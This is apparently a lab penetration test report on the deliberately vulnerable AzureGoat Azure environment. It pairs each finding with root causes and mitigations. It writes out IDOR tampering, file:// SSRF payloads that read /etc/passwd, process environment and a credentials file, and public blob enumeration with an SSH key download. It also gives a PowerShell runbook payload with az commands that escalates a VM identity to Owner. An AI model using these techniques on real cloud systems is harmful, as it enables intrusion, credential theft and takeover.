# Penetration Testing Report

## AzureGoat Vulnerable Infrastructure Assessment

**Author:** Aadith C H\
**Date:** 2026-02-26\
**Environment:** AzureGoat (Terraform Deployment)

------------------------------------------------------------------------

# 1. Introduction

AzureGoat was deployed using Terraform and Azure CLI. After successful
`terraform apply`, the application endpoint was generated and the
infrastructure was accessible for testing.

AzureGoat is a deliberately vulnerable Azure cloud environment designed
to simulate real-world cloud misconfigurations, insecure storage
exposure, identity mismanagement, and privilege escalation scenarios.

The objective of this assessment was to identify security weaknesses
within the deployed Azure infrastructure and demonstrate potential
attack paths leading to resource compromise.

------------------------------------------------------------------------


## Vulnerabilities Assessed:

-   Security Misconfiguration (Public Blob Storage Exposure)
-   Sensitive Data Exposure
-   SSH Private Key Exposure
-   Virtual Machine Compromise
-   Managed Identity Abuse
-   Azure RBAC Misconfiguration (Owner / Contributor Privilege)
-   Azure Automation Runbook Abuse
-   Privilege Escalation within Resource Group

------------------------------------------------------------------------

## Assessment Scope

The scope of this penetration test included:

-   Azure Resource Group: `azuregoat_app`
-   Azure Storage Accounts
-   Azure Virtual Machines
-   Managed Identities
-   Azure Automation Accounts
-   Role Assignments and RBAC Permissions

Testing was performed in a controlled lab environment deployed
specifically for security research and educational purposes.

------------------------------------------------------------------------

# 2. Insecure Direct Object Reference (IDOR)

During testing of the profile functionality in the AzureGoat
application, Burp Suite was used to intercept HTTP requests sent to the
backend Azure Function API.

Analysis of the password change request revealed that the
`/change-password` endpoint relied solely on a user-supplied `id`
parameter to determine which account's password should be updated.

Although a JWT token was present in the request headers, the backend did
not validate whether the authenticated user was authorized to modify the
account associated with the supplied `id`.

By modifying the `id` parameter in the intercepted request, it was
possible to change the password of another user account.


After altering the `id` value and forwarding the request, the server
responded with:

    "message": "Password changed successfully"

The response confirmed that the password of a different user account was
successfully updated.


------------------------------------------------------------------------

## Technical Explanation

An Insecure Direct Object Reference (IDOR) vulnerability occurs when:

1.  An application exposes a direct reference to an internal object
    (such as a user ID).
2.  Access control checks are not properly enforced.
3.  The backend trusts client-supplied identifiers.

In this case:

-   The `/change-password` endpoint accepted a JSON body containing:

``` json
{
  "id": "<user_id>",
  "newPassword": "...",
  "confirmNewPassword": "..."
}
```

-   The application relied entirely on the client-provided `id` value.
-   The backend did not verify that the JWT identity matched the
    supplied `id`.
-   No object-level authorization validation was performed.
-   The Azure Function executed the password update purely based on the
    provided identifier.

This allowed horizontal privilege escalation (user-to-user compromise).

------------------------------------------------------------------------

## Impact

-   Account takeover\
-   Unauthorized password reset\
-   Privilege abuse\
-   Lateral movement between user accounts\
-   Potential administrative account compromise

If exploited against a privileged account, this vulnerability could
result in full administrative control of the application.

Because the backend is implemented as an Azure Function, this
vulnerability exists at the API layer and is independent of the frontend
implementation.

------------------------------------------------------------------------

## Root Cause

-   No authorization check linking JWT identity to resource ID\
-   Backend trusting client-supplied identifiers\
-   Missing object-level access control\
-   Absence of role-based access control (RBAC) enforcement at API
    level\
-   Lack of centralized authorization middleware

Although authentication was implemented (JWT token present),
authorization was not enforced.

------------------------------------------------------------------------

## Mitigation

-   Enforce proper authorization checks on every request.
-   Validate that the authenticated user is authorized to modify the
    requested resource.
-   Do not rely on client-supplied object identifiers.
-   Extract user identity from the JWT token server-side instead of
    trusting request body parameters.
-   Implement centralized authorization middleware for Azure Functions.
-   Apply object-level access control validation.
-   Conduct regular API security testing.

------------------------------------------------------------------------

# 3. Server Side Request Forgery (SSRF)

## Overview

During testing of the **New Post** functionality in the AzureGoat
application, it was observed that the application allows users to either
upload an image file locally or provide an external image URL.

The application fetches the supplied URL server-side and stores the
retrieved content inside Azure Blob Storage.

This behavior introduced a Server-Side Request Forgery (SSRF)
vulnerability.

------------------------------------------------------------------------

## Step 1 -- Identifying URL Upload Feature

The application provides an option to upload an image using a URL.

!

------------------------------------------------------------------------

## Step 2 -- Local File Access via file:// Protocol

Instead of providing a legitimate HTTP/HTTPS URL, the following payload
was supplied:

    file:///etc/passwd




The application responded with:

    URL File uploaded successfully


------------------------------------------------------------------------

## Step 3 -- Verification via Blob Storage

The application generated a Blob Storage URL containing the uploaded
file.


The file was downloaded and inspected locally.


The contents confirmed successful retrieval of the backend server's
`/etc/passwd` file.

------------------------------------------------------------------------

## Step 4 -- Environment Variable Extraction

After confirming local file access, a more sensitive file was targeted:

    file:///proc/self/environ



The application again processed the request and stored the output in
Blob Storage.

The downloaded file revealed Azure Function runtime environment
variables.



------------------------------------------------------------------------

## Technical Explanation

Server-Side Request Forgery (SSRF) occurs when:

1.  An application fetches remote resources based on user-supplied
    input.
2.  The input is not properly validated or restricted.
3.  The server performs requests internally on behalf of the attacker.

In this case:

-   The image upload feature allowed arbitrary URL input.
-   The `file://` protocol was not restricted.
-   No validation prevented access to local system files.
-   The Azure Function executed the request internally.
-   The result was stored in Azure Blob Storage, enabling data
    exfiltration.

------------------------------------------------------------------------

## Impact

-   Local file disclosure\
-   Backend system enumeration\
-   Exposure of Azure Function environment variables\
-   Potential credential leakage\
-   Foundation for Azure privilege escalation

This vulnerability serves as a critical pivot point in the Azure attack
chain.

------------------------------------------------------------------------

## Root Cause

-   No URL scheme validation (allowed `file://`)
-   No internal file access restriction
-   No SSRF protection mechanism
-   Lack of outbound request filtering

------------------------------------------------------------------------

## Mitigation

-   Restrict URL schemes to `http` and `https` only.
-   Block `file://` protocol.
-   Implement strict allow-list validation.
-   Restrict access to internal resources.
-   Monitor outbound requests from Azure Functions.
-   Conduct regular SSRF security testing.

------------------------------------------------------------------------
# 4 - Server-Side Request Forgery (SSRF) -Part 2

------------------------------------------------------------------------


## 1. SSRF Vulnerability Identification

The application provides a feature allowing users to upload images via
URL.\
The input field improperly accepts the `file://` protocol, enabling
access to local files on the Azure Function host.

This confirms a Local File Read via SSRF vulnerability.

------------------------------------------------------------------------

## 2. Proof of SSRF -- Reading /etc/passwd

**Payload Used:**

    file:///etc/passwd

Successful retrieval of `/etc/passwd` confirms that the server processes
local file paths.


------------------------------------------------------------------------

## 3. Extracting local.settings.json

The Azure Function application directory contains configuration files
under:

    /home/site/wwwroot/

**Payload Used:**

    file:///home/site/wwwroot/local.settings.json

The response confirmed extraction of sensitive configuration data.


------------------------------------------------------------------------

## 4. Credential Exposure

The `local.settings.json` file contained:

-   CosmosDB Account Endpoint
-   CosmosDB Primary Key
-   Azure Storage Account Connection String
-   JWT Secret

This exposed full cloud access credentials.


------------------------------------------------------------------------

## 5. CosmosDB Access via Extracted Credentials

Using the CosmosDB connection string in VSCode Azure extension:

    AccountEndpoint=<AZ_DB_ENDPOINT>;
    AccountKey=<AZ_DB_PRIMARYKEY>

The database was successfully attached locally.


------------------------------------------------------------------------

## 6. Database Manipulation & Privilege Escalation

The user document for "Davis M" was modified:

    "authLevel": "300"  →  "authLevel": "0"

After uploading the modified document, administrative privileges were
obtained.


This demonstrates horizontal and vertical privilege escalation via cloud
credential abuse.

------------------------------------------------------------------------

## 7. Azure Storage Account Access

The Storage connection string extracted from `local.settings.json` was
used to attach the Azure Storage account locally.

    DefaultEndpointsProtocol=https;
    AccountName=<STORAGE_NAME>;
    AccountKey=<STORAGE_KEY>;
    EndpointSuffix=core.windows.net


------------------------------------------------------------------------

## 8. Source Code Extraction

The Blob container was browsed and application source code was
downloaded, including:

-   Azure Function backend
-   React frontend modules
-   API resources


------------------------------------------------------------------------

## Attack Chain Summary

SSRF → Local File Read → Configuration Disclosure →\
Credential Extraction → CosmosDB Access →\
Privilege Escalation → Storage Account Access →\
Source Code Extraction → Full Cloud Compromise

------------------------------------------------------------------------

## Impact

-   Full database compromise
-   Administrative privilege escalation
-   Exposure of JWT secret
-   Storage account takeover
-   Application source code disclosure
-   Complete Azure environment compromise

------------------------------------------------------------------------

## Root Cause

-   Improper validation of URL input
-   Lack of protocol filtering (`file://` allowed)
-   Sensitive credentials stored in deployment artifacts
-   Over-privileged connection strings
-   No separation of secrets from application runtime

------------------------------------------------------------------------

## Mitigation

-   Block `file://`, `ftp://`, and internal IP ranges
-   Implement strict allowlist for external domains
-   Use Managed Identity instead of static credentials
-   Remove sensitive keys from `local.settings.json`
-   Store secrets in Azure Key Vault
-   Enforce RBAC for CosmosDB and Storage
-   Implement network-level egress restrictions

------------------------------------------------------------------------

# 5-Security Misconfiguration Exploitation 

## Vulnerability Overview

The Azure Blob Storage production container was properly restricted.\
However, the development container (`dev-appazgoat-storage-container`)
was misconfigured with public **list and read permissions enabled**,
exposing sensitive internal files including SSH keys and infrastructure
configuration.

This represents:

**Security Misconfiguration -- Public Azure Storage Container Exposure**

------------------------------------------------------------------------


## Step 1 -- View Page Source



The source revealed a reference to:

    https://appazgoatstoga.blob.core.windows.net/prod-appazgoat-storage-container/

------------------------------------------------------------------------

## Step 2 -- Beautify HTML


This confirmed static assets were hosted in Azure Blob Storage.

------------------------------------------------------------------------

## Step 3 -- Attempt Production Container Enumeration

Appending:

    ?restype=container&comp=list


Production container was properly secured.

------------------------------------------------------------------------

## Step 4 -- Modify to Development Container

Changed:

    prod-appazgoat-storage-container

to:

    dev-appazgoat-storage-container

------------------------------------------------------------------------

## Step 5 -- Enumerate Development Container

Appending:

    ?restype=container&comp=list


The development container allowed full listing.

------------------------------------------------------------------------

## Step 6 -- Identify Sensitive Files (.ssh)


Sensitive files discovered:

-   config.txt
-   SSH private keys (\*.pem)

------------------------------------------------------------------------

## Step 7 -- Locate Private Key (justin.pem)


------------------------------------------------------------------------

## Step 8 -- Download SSH Private Key

``` bash
wget https://appazgoatstoga.blob.core.windows.net/dev-appazgoat-storage-container/shared/files/.ssh/keys/justin.pem
```


------------------------------------------------------------------------

## Step 9 -- Extract Host Information from config.txt


The file revealed:

-   Internal IP addresses
-   SSH usernames
-   Private key mappings

------------------------------------------------------------------------

## Step 10 -- Network Enumeration Using Nmap

``` bash
nmap 40.85.170.40 -Pn
```


Port 22 (SSH) was open.

------------------------------------------------------------------------

##  Impact

This misconfiguration allowed:

-   Public container enumeration
-   Exposure of SSH private keys
-   Infrastructure mapping
-   Potential remote server compromise

If this were a real production environment, it could result in full
environment takeover.

------------------------------------------------------------------------

##  Risk Rating

Severity: **High**\
Category: **Security Misconfiguration**\
OWASP: **A05 -- Security Misconfiguration**

------------------------------------------------------------------------

## Remediation

1.  Disable public access on development containers.
2.  Enforce Azure RBAC and least privilege.
3.  Remove SSH keys from storage containers.
4.  Enable Azure Storage firewall restrictions.
5.  Use Private Endpoints.
6.  Perform regular permission audits.

------------------------------------------------------------------------

# 6- Azure Privilege Escalation 

------------------------------------------------------------------------

## Objective

Leverage misconfigured Role-Based Access Control (RBAC) permissions to escalate privileges from **Contributor** to **Owner** within an Azure Resource Group.

------------------------------------------------------------------------

## 1. Initial Access – Virtual Machine Login

The attacker gained SSH access to an Azure Virtual Machine using credentials obtained from a configuration file.

### Commands Used

chmod +600 justin.pem  
ssh -i justin.pem justin@<VM_PUBLIC_IP>


------------------------------------------------------------------------

## 2. Azure CLI Authentication via Managed Identity

The VM was configured with a Managed Identity.  
Using Azure CLI, authentication was performed without credentials.

### Command Used

az login -i

This confirmed the VM could interact with Azure resources using its assigned identity.



------------------------------------------------------------------------

## 3. Enumerating Azure Resources

All resources inside the resource group were listed.

### Command Used

az resource list

From the output, the following were identified:

- Virtual Machine Name
- VM Principal ID
- Automation Account Resource



------------------------------------------------------------------------

## 4. Checking Current Role Assignments

The VM’s current role was verified.

### Command Used

az role assignment list -g <ResourceGroupName>

The VM identity was found to have:

Role: Contributor

Contributor role does NOT allow role assignment modification.



------------------------------------------------------------------------

## 5. Identifying Over-Privileged Resource

Further analysis of role assignments revealed:

An Azure Automation Account had **Owner** privileges at the resource group level.

This indicated a misconfiguration where an automation identity possessed excessive permissions.



------------------------------------------------------------------------

## 6. Enumerating Automation Runbooks

Runbooks inside the Automation Account were listed.

### Command Used

az automation runbook list --automation-account-name <AutomationAccountName> -g <ResourceGroupName>

A PowerShell Workflow-based runbook was discovered.



------------------------------------------------------------------------

## 7. Runbook Modification – Privilege Escalation Payload

The existing runbook was modified to assign the Owner role to the VM’s identity.

### PowerShell Payload

workflow Get-AzureVM {
    inlineScript {
        Disable-AzContextAutosave -Scope Process
        $AzureContext = (Connect-AzAccount -Identity -AccountId <Automation-Client-ID>).context
        $AzureContext = Set-AzContext -SubscriptionName $AzureContext.Subscription -DefaultProfile $AzureContext
        New-AzRoleAssignment -RoleDefinitionName "Owner" -ObjectId <VM-Principal-ID> -ResourceGroupName <ResourceGroupName>
    }
}

This script:

- Authenticates using Automation Account Managed Identity
- Assigns the Owner role to the VM Principal ID




------------------------------------------------------------------------

## 8. Publishing and Executing the Runbook

The modified runbook was uploaded, published, and executed.

### Commands Used

az automation runbook replace-content --automation-account-name "<AutomationAccountName>" --resource-group <ResourceGroupName> --name "Get-AzureVM" --content @exploit.ps1

az automation runbook publish --automation-account-name "<AutomationAccountName>" --resource-group <ResourceGroupName> --name "Get-AzureVM"

az automation runbook start --automation-account-name "<AutomationAccountName>" --resource-group <ResourceGroupName> --name "Get-AzureVM"



------------------------------------------------------------------------

## 9. Privilege Escalation Confirmation

Role assignments were checked again.

### Command Used

az role assignment list -g <ResourceGroupName>

Result:

VM role changed from Contributor → Owner



------------------------------------------------------------------------

## Attack Chain Summary

VM Access → Managed Identity Login →  
Resource Enumeration → Identify Over-Privileged Automation Account →  
Modify Runbook → Assign Owner Role →  
Privilege Escalation → Full Resource Group Control

------------------------------------------------------------------------

## Impact

- Complete Resource Group takeover
- Ability to modify RBAC roles
- Create/Delete Azure resources
- Deploy malicious infrastructure
- Data exfiltration
- Lateral movement within subscription

------------------------------------------------------------------------

## Root Cause

- Over-privileged Automation Account (Owner role)
- Poor RBAC separation of duties
- Lack of least privilege enforcement
- No monitoring on runbook modifications
- Insufficient Azure Policy governance

------------------------------------------------------------------------

## Mitigation

- Apply Principle of Least Privilege (PoLP)
- Remove Owner role from Automation Accounts
- Use custom RBAC roles instead of Owner
- Enable Azure Activity Log Alerts for role assignments
- Monitor Automation runbook changes
- Enforce Azure Policy for RBAC compliance
- Use Privileged Identity Management (PIM)

------------------------------------------------------------------------

# 12. Complete Attack Chain

1.  Public Blob Storage misconfiguration identified
2.  Development container enumerated
3.  Sensitive `.ssh` directory exposed
4.  SSH private key (justin.pem) extracted
5.  Internal host mapping discovered via config.txt
6.  Virtual Machine accessed via SSH
7.  Managed Identity leveraged using `az login -i`
8.  Owner and Contributor RBAC roles discovered
9.  Azure Automation Runbook modified and executed
10. Full Resource Group administrative control achieved

------------------------------------------------------------------------

# 13. Overall Risk Assessment

Confidentiality: High\
Integrity: High\
Availability: High

Overall Severity: CRITICAL

------------------------------------------------------------------------

# 14. Conclusion

The AzureGoat environment was critically vulnerable to a full cloud
compromise chain beginning from a simple storage misconfiguration and
ending in complete administrative control of the Azure resource group.

The primary root causes included:

-   Publicly accessible development storage container
-   Exposure of SSH private keys in Blob Storage
-   Overly permissive RBAC role assignments (Owner / Contributor)
-   Excessive Managed Identity privileges
-   Lack of separation between development and production environments
-   Insecure secret handling practices

The overall severity of this assessment is CRITICAL due to successful
escalation to full administrative access within the Azure resource
group.

Immediate remediation, strict least privilege enforcement, secure
identity governance, and cloud configuration auditing are strongly
recommended.

------------------------------------------------------------------------

# Vulnerability Summary Table

Below is a consolidated summary of all identified Azure vulnerabilities.

| Vulnerability | Root Cause | Impact | Mitigation |
|--------------|------------|--------|------------|
| Public Blob Storage Exposure | Development container allowed public list/read access | Sensitive file disclosure, infrastructure mapping | Disable public access, enforce private endpoints, enable storage firewall |
| Sensitive Data Exposure | SSH keys and config files stored in blob container | Credential compromise, VM access | Remove secrets from storage, use Azure Key Vault |
| SSH Private Key Exposure | Private keys stored in accessible container | Direct server compromise | Store keys securely, rotate keys, restrict access |
| Virtual Machine SSH Access | Public SSH open and key exposed | Remote VM compromise | Restrict NSG rules, use Azure Bastion, enforce MFA |
| Managed Identity Over-Permission | Identity assigned excessive RBAC roles | Cloud resource abuse | Apply least privilege RBAC |
| RBAC Misconfiguration (Owner / Contributor) | Excessive role assignments at resource group scope | Full administrative control | Remove Owner role, implement separation of duties |
| Azure Automation Abuse | Automation account accessible with elevated privileges | Arbitrary script execution | Restrict Automation permissions, audit runbooks |
| Privilege Escalation | Lack of permission boundaries and governance controls | Complete resource group takeover | Implement Azure Policy, Conditional Access, and Privileged Identity Management |


# End of Report